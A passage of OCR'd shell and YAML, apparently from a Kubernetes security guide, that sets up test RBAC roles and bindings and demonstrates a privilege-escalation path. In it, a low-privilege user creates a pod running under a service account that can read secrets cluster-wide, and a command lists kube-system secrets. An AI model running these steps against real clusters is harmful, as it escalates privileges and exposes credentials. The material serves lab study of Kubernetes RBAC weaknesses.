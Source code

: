 ```bash
resources: ["pods"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-rb
subjects:
- kind: ServiceAccount
name: test-sa
- kind: User
name: Test
roleRef:
kind: Role
name: test-r
apiGroup: rbac.authorization.k8s.io
---
kind: ClusterRole
apiVersion: rbac.authorization.k8s.io/v1
metadata:
name: test-cr
rules:
- apiGroups: [""]
resources: ["secrets"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
name: test-crb
subjects:
- kind: ServiceAccount
namespace: default
name: test-sa
apiGroup: ""
roleRef:
kind: ClusterRole
name: test-cr
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Check test-sa can access kube-system secrets
kubectl --as system:serviceaccount:default:test-sa -n kube-system get secrets

# Check user User can get pods in namespace default
kubectl --as Test -n default get pods

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: v1
kind: Pod
metadata:
name: test-pod
namespace: default
spec:
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
```